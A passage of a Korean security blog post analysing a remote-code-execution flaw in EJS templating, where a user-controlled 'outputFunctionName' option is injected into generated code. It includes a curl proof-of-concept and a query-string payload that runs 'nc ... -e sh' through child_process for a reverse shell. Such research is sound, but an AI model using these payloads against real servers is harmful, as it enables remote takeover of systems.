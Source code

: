 이름에서 알 수 있듯이 얕은 복사를 하는 코드다. 즉, 2번째로 입력된 인자의 원소들을 뽑고, 원소를 이용한 배열의 값을 1번째 인자의 같은 원소를 갖는 배열에 넣어 저장한다.

![Untitled](/assets/img/20221031/Untitled%202.png)

그림에서 알 수 있듯이 `to['A']` 에 `BBBB`라는 값이 저장된 것을 확인할 수 있다.  즉, 사용자는 첫 인자를 조작할 수 있다.

요기서 첫인자는 `opts`라는 변수가 넘어가는데, `opts` 변수는 추후에 다음과 같은 함수에서 사용된다.

```jsx
...
    if (!this.source) {
      this.generateSource();
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
      if (opts.destructuredLocals && opts.destructuredLocals.length) {
...
```

코드에서 어느정도 알 수 있듯이, `opts`의 `outputFunctionName` 원소 값을 갖고와서 `prepended`에 넣으며 해당 값은 추후에 다른 값들과 이어져 code로써 실행이된다.

사용자는 `opts`를 조작할 수 있음으로 `outputFunctionName` 값 또한 변조할 수 있어 원하는 값을 RCE를 발생 시킬 수 있다.

- `curl "127.0.0.1:3000?test=AAAA&settings\[view%20options\]\[outputFunctionName\]=x;console.log('Hacked');x"`

![Untitled](/assets/img/20221031/Untitled%203.png)

## Exploit PoC

Exploit은 비교적 간단하다. `child_process`를 `require`한 뒤 `execSync`를 통해 Reverse Shell을 하면 된다.

```jsx
?settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc 127.0.0.1 8862 -e sh');x"
```
